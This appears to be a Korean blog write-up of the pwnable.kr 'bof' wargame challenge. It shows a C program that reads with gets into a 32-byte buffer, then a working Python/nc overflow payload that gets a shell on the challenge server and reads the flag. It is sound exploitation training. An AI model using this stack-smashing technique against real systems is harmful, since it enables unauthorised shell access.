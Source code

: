 ```yaml
---
title: "pwnable.kr - Toddler's bottle #2 bof"
date: 2020-03-08
categories:
  - Information Security
tags:
  - pwnable.kr
---
```


[pwnable.kr][pwnable.kr] Toddler's bottle의 #2 bof 문제 풀이

bof.c
```c
#include <stdio.h>
#include <string.h>
#include <stdlib.h>
void func(int key){
	char overflowme[32];
	printf("overflow me : ");
	gets(overflowme);	// smash me!
	if(key == 0xcafebabe){
		system("/bin/sh");
	}
	else{
		printf("Nah..\n");
	}
}
int main(int argc, char* argv[]){
	func(0xdeadbeef);
	return 0;
}

```

기초적인 buffer overflow 문제

그냥 생각해 보면 32 byte - old ebp - return address - argument 순으로 되어 있을것 같지만 해보면 stack smashing detector 같은것도 있고 해서 좀 더 많이 overflow 해야 한다

~~~
vmware@ubuntu:~$ (python -c "print '\xbe\xba\xfe\xca'*11" ; cat) | nc pwnable.kr 9000
*** stack smashing detected ***: /home/bof/bof terminated
overflow me : 
Nah..
~~~

cat을 넣어야 하는 이유는, linux의 pipe는 주어진 input이 끝나면 자동으로 stdin으로 전환해 주는게 아니라 그냥 더 이상 들어갈게 없다고 생각하고 input을 받는 프로세스를 종료시켜 버린다. 그래서 뒤에 cat을 넣어줘서 python print 이후에도 cat을 통한 stdin이 있을것임을 보여주는 것이다. 

~~~
vmware@ubuntu:~$ (python -c "print '\xbe\xba\xfe\xca'*14" ; cat) | nc pwnable.kr 9000
id
uid=1008(bof) gid=1008(bof) groups=1008(bof)
ls
bof
bof.c
flag
log
log2
super.pl
cat flag
<tag output>
~~~

[pwnable.kr]: https://pwnable.kr

<!-- daddy, I just pwned a buFFer :) -->